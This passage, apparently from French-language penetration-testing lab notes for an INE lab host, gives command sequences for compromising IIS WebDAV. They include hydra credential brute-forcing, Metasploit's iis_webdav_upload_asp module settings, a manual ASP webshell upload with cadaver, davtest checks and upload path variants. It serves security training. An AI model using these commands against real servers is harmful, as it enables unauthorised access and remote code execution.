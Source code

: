 ### Scénario 2: Brute force → Metasploit
```bash
# 1. Si credentials inconnus
hydra -L users.txt -P passwords.txt http-get://demo.ine.local/webdav

# 2. Une fois credentials trouvés
use exploit/windows/iis/iis_webdav_upload_asp
set HttpUsername found_user
set HttpPassword found_pass
# ... reste identique
```

### Scénario 3: Fallback méthode manuelle
```bash
# Si module Metasploit échoue
cadaver http://demo.ine.local/webdav
put /usr/share/webshells/asp/webshell.asp
# Puis RCE via curl comme méthode manuelle
```

---

## 🔧 11. Troubleshooting Metasploit WebDAV

### Erreurs communes et solutions
| Erreur | Cause | Solution |
|--------|-------|----------|
| **No session created** | Credentials incorrects | Vérifier HttpUsername/HttpPassword |
| **Upload failed** | PATH incorrect | Ajuster PATH (/webdav/) |
| **Connection timeout** | Firewall/réseau | Vérifier LHOST/LPORT |
| **Permission denied** | Pas de droits upload | Tester avec davtest d'abord |

### Debug du module
```bash
# Mode verbose
set VERBOSE true
exploit

# Vérifier options
show options
show advanced

# Test manuel après échec MSF
davtest -auth bob:password_123321 -url http://demo.ine.local/webdav
```

### Variantes du chemin PATH
```bash
# Différentes variantes à tester
set PATH /webdav/shell%RAND%.asp
set PATH /webdav/test%RAND%.asp  
set PATH /WebDAV/shell%RAND%.asp         # Casse différente
set PATH webdav/shell%RAND%.asp          # Sans / initial
```

---
